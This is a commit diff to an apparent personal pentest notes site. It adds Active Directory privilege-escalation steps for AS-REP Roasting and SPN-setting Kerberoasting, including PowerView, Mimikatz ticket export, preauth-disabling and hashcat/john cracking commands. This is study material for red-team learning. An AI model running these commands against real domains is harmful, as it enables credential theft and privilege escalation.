

Before and after one commit to mvc1009/hackingnotes, a Jekyll site: the page built from _docs/active-directory/domain-privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 1998 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add content domain-privesc.md v3

````diff
--- a/_docs/active-directory/domain-privesc.md
+++ b/_docs/active-directory/domain-privesc.md
@@ -47,7 +47,7 @@ Finally all tickets should be exported.
 Inovoke-Mimikatz -Command '"kerberos::list /export"'
 ```
 
-## Cracking the TGS
+## Cracking the tickets
 
 Once the tickets are exported it can be cracked with `john`, `hashcat` or `tgsrepcrack.py` tool:
 
@@ -62,4 +62,86 @@ To crack the ticket with hascat exists a script to export it to a hashcat format
 haschat -a 0 -m 13100 wordlist.txt ticket.txt
 ```
 
-# AS-REPRoasting
+# AS-REP Roasting
+
+If a users account does not have the flag _"Do not require Kerberos pre-authentication"_ in _UserAccountControl_ settings which means kerberos preauth is disabled, it is possible to grab users AS-REP and brute-force it offline.
+
+## Users with No-Preauth set
+
+We need to enumerate accounts with Kerberos Preauth disabled:
+
+* PowerView:
+```powershell
+Get-DomainUser -PreauthNotRequired -Verbose
+```
+
+* AD Module:
+```powershell
+Get-ADUser -Filter {DoesNotRequiredPreAuth -eq $True} -Properties DoesNotRequiredPreAuth
+```
+
+> **Note**: With `GenericAll` or `GenericWrite`, kerberos preauth can be disabled.
+>
+> `Set-DomainObject -Identity user01 -XOR @{useraccountcontrol=4194304} -Verbose`
+
+## Cracking the tickets
+
+We can request an encrypted AS-REP for offline brute-force. To do that task we can use `ASREPRoast` module:
+
+```powershell
+Import-Module ASREPRoast.ps1
+Get-ASREPHash -UserName user01 -Verbose
+```
+After getting the ticket we can crack it with `john` or `hashcat`:
+
+```
+john user01.ticket --wordlist=wordlist.txt
+hashcat -a 0 -m 18200 user01.ticket wordlist.txt
+```
+
+# Set SPN
+
+With enough privileges such as `GenericAll` or `GenericWrite`, a target user's SPN can be set to anything which is unique in the domain. We can then request a TGS without special privileges and the TGS can be kerberoasted.
+
+We can enumerate the permissions for a group on ACLs:
+
+* PowerView (dev):
+```powershell
+Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
+```
+
+We can also see if a user already has a SPN:
+
+* PowerView (dev):
+```powershell
+Get-DomainUser -Identity user01 | select serviceprincipalname
+```
+* AD Module:
+```powershell
+Get-ADUser -Identity user01 -Properties ServicePrincipalName | select ServicePrincipalName
+```
+
+And we can force the SPN to a user:
+
+* PowerView (dev):
+```powershell
+Set-DomainObject -Identity user01 -Set @{serviceprincipalname='ops/whatever01'}
+```
+
+* AD Module:
+```powershell
+Set-ADUser -Identity user01 -ServicePrincipalNames @{Add='ops/whatever01'}
+```
+
+Once we have a SPN set, we can request a TGS:
+
+```powershell
+Add-Type -AssemblyName System.IdentityModel
+New-Object Sytem.IdentityModel.Token.KerberosRequestorSecurityToken -ArgumentList "ops/whatever01"
+```
+And we can export the tickets to the disk:
+
+```powershell
+Inovoke-Mimikatz -Command '"kerberos::list /export"'
+```
+And finally same as *Kerberoasting*, you can crack the ticket with `tgsrepcrack.py`.
````
Also changed, not shown: _docs/active-directory/domain-enumeration.md (+1 -0 lines), 5 other files.
